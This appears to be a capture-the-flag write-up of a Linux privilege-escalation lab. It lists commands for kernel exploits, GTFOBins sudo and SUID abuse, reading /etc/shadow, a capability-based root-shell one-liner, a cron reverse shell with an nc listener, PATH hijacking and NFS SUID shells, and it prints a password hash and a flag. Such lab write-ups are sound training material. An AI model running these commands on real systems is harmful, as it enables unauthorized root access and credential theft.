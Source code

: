 
## *Enumeration*
>	- Use `hostname` command.
>	- Use `cat /proc/version` command.
>	- Use `cat /etc/issue` command.
>	- Use `python -V` command.![](basic-info.png)
>	- Using the found version to lookup a vulnerability on `exploit-db`.![](kernel-cve.png)

## *Privilege Escalation*
### *Kernel Exploits*
>	 - Get the exploit from `/usr/share/exploitdb/exploits/linux/local/` and save it in current directory for it to be hosted with a python server.![](py-server.png)
>	 - Install the exploit on the target machine using `wget`. No permissions to create a file, so traverse to `/tmp/` and install it.![](exploit-installed.png)
>	 - Use `gcc` to compile the file, and then run the output.![](priv-esc.png)
>	 - Discover the structure of the directories to find the flag.![](flag-1.png)
### *Sudo Exploits*
>	- Use `sudo -l` to list all commands that the user can run with sudo.![](sudo-commands.png)
>	- Use `find` to get he path of the `flag2` file.![](flag-2.png)
>	- Going to `GTFObins` to look for a way to spawn a root shell using `nmap`, the answer is `sudo nmap --interactive`. ![](gtfo-nmap.png)
>	- Going to `GTFObins` to get a root shell using `find`.![](gtfo-find.png)
>	- ![](find-root-shell.png)
>	- ![](frank-hash.png)
>	- The hash is `$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwoBJpphrPRJWjelWEz2HH.joV14aDwW1c3CahzB1uaqeLR1`
### *SUID Exploitation*
>	- Get users using `cat /etc/passwd | grep "home" | cut -d ":" -f 1`.![](suid-users.png)
>	- Using `find / -type f -perm -u=s 2>/dev/null` to get binaries with `SUID` bit set.![](suid-find-1.png)![](suid-find-2.png)
>	- Going to `GTFObins` to look up the found binaries.
>	- Using `base64` to read the content of `/etc/shadow` and the `/etc/passwd` files.![](suid-gtfo-base64.png)![](suid-shadow.png)
>	- The `user2` hash can be found, copy the content of both files to and save them on the attack machine in `shadow.txt` and `passwd.txt` respectively. ![](suid-shadow-passwd.png)
>	- ![](suid-user2-cracked.png)
>	- Now change the user to `user2` using the cracked password.![](suid-su-user2.png)
>	- Use the same process used to get the content of `/etc/passwd` to get the content of the `flag3.txt`.![](flag-3.png)
### *Capabilities*
>	- Using `getcap -r / 2>/dev/null` to list the enabled capabilities.![](cap-enabled.png)
>	- Using `GTFObins` to search for the found binaries to get a root shell.![](cap-gtfo-shell.png)
>	- Now Using `./view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'` to open up a root shell. ![](cap-root-shell.png)
>	- Flag can be found at `/home/ubuntu/flag4.txt`.![](flag-4.png)
### *Cron Jobs*
>	- Use `cat /etc/crontab` to get the list of cron jobs.![](cron-crontab.png)
>	-  Change the script in `backup.sh` to open up a reverse shell.![](cron-backup-script.png)
>	- Change the permissions of the file using `chmod +x backup.sh`, and open a listener using `nc -lvnp 6666`. ![](cron-reverse-shell.png)
>	- Flag can be found at `/home/ubuntu/flag5.txt`.![](flag-5.png)
>	- Matt's hash can be found at `/etc/shadow`. ![](cron-matt-hash.png)
>	- Using `john` to crack the hash.![](cron-matt-pass.png)
### *PATH*
>	- Using `find / -writable 2>/dev/null` to get the writable directories.
>	- The above command prints out a lot of noise, limiting search output to `home` directory according to the hint.![](path-writable-dirs.png)
>	- Putting the `/home/murdoch` to the PATH variable using `expot PATH=/home/murdoch/:$PATH`.![](path-updated-variable.png)
>	- Create a file named `thm` in `/home/murdoch` that opens a root shell, change the permissions on the file using `chmod 777 thm`.
>	- Execute the binary `test` that runs the `thm` file.![](path-root-shell.png)
>	- Search for the flag and `cat` it.![](flag-6.png)
### *NFS*
>	- Show mountable shares using `showmount -e 10.10.1.127`.![](nfs-mountable-shares.png)
>	- View the NFS configuration file using `cat /etc/exports`.![](nfs-config.png)
>	- Mount `/home/ubuntu/sharedfolder` of the target to the attack machine using `mount -o rw 10.10.247.245:/home/ubuntu/sharedfolder /tmp/targetshare`.
>	- Create an executable file that spawns a shell inside the `targetshare` directory.![](nfs-spawn-shell.png)
>	- Compile the C program using `gcc spawn-shell.c -o spawn-shell -w`.![](nfs-spawn-shell-compiled.png)
>	- Set the SUID bit on the file using `chmod +s spawn-shell`, the files should be located on the target machine in the `/home/ubuntu/sharefolder` directory.![](nfs-target-sharefolder.png)
>	- Run the `spawn-shell` executable and `cat` the flag located in `/home/matt/flag7.txt`.
>	- The flag is `THM-89384012`.